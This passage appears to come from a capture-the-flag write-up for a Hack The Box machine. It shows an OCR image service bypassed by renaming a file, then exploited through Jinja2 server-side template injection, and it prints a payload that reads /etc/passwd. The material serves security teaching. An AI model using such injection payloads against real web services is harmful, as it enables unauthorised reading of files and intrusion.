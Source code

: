 Which can be bypassed by simply renaming the file without changing its data:

```
Error occured while processing the image: cannot identify image file '/home/svc_acc/app/uploads/p.jpg1725'
```

So the service is running as the user "svc_acc".

The uploads folder cannot be reached though.

Fuzzing for special characters and command injection in the filename fails.

### The image content

Using the Chrome dev tools, we can easily generate images with any text by
editing the webpage itself.

First we insert a HTML tag:

```html
<span>whoami</span>
```

The span has exactly the size on its content so it will produce the smallest
image. Next right click on the element in the dev tool and select "capture node screenshot".

As seen earlier, the OCR recognizes the font of its own page:

```html
<p>whoami
</p>
```

Since it insisted on the framework and the result is in HTML, SSTI comes to mind:

![][ssti-test]

Template injection works:

```html
<p>49
</p>
```

## Building non ambiguous payloads

### The OCR filter

Flask leverages Jinja2, for which [HackTricks][hacktricks] has a wealth of payloads:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

But the output shows that the interpretation broke:

```
<p>)__[2].__subclasses__()[40](‘/etc/passwd').read() }}
</p>
```


[author-profile]: https://app.hackthebox.com/users/389926
[hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[image-payload]: images/image-payload.png
[linpeas]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
[pspy]: https://github.com/DominicBreuker/pspy
[screenshot-frontpage]: images/screenshot-frontpage.png
[screenshot-webservice]: images/screenshot-webservice.png
[ssti-vector]: images/ssti-test.png
[webservice-url]: http://images.late.htb